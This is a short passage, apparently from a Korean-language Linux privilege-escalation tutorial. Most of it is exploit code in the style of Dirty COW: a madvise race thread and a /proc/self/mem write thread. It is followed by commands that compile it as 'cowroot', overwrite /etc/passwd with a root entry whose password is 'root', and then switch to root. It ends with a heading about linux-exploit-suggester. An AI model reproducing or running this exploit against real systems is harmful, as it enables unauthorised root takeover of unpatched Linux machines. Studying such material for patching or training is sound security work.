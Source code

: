 ```bash

void *madviseThread(void *arg) {
    char *str;
    str=(char*)arg;
    int i,c=0;
    for(i=0;i<1000000 && !c;i++) {
        c=madvise(map,100,MADV_DONTNEED);
    }
    printf("madvise %d\n\n",c);
}

void *procselfmemThread(void *arg) {
    char *str;
    str=(char*)arg;
    int f=open("/proc/self/mem",O_RDWR);
    int i,c=0;
    for(i=0;i<1000000 && !c;i++) {
        lseek(f,(uintptr_t) map,SEEK_SET);
        c=write(f,str,strlen(str));
    }
    printf("procselfmem %d\n\n",c);
}

int main(int argc,char *argv[]) {
    if(argc<2) return 1;
    pthread_t pth1,pth2;
    f=open(argv[1],O_RDONLY);
    fstat(f,&st);
    name=argv[1];
    map=mmap(NULL,st.st_size,PROT_READ,MAP_PRIVATE,f,0);
    printf("mmap %p\n\n",(void*)map);
    pthread_create(&pth1,NULL,madviseThread,argv[1]);
    pthread_create(&pth2,NULL,procselfmemThread,argv[2]);
    pthread_join(pth1,NULL);
    pthread_join(pth2,NULL);
    return 0;
}
EOF

# 컴파일 및 실행
gcc cowroot.c -o cowroot -pthread
echo 'root:$1$root$9xnkBEY7FDSNJzdNu4ISR.:0:0:root:/root:/bin/bash' > /tmp/passwd.bak
./cowroot /etc/passwd /tmp/passwd.bak
su root  # password: root
```

## 🤖 자동화 도구 활용

### 🔍 linux-exploit-suggester
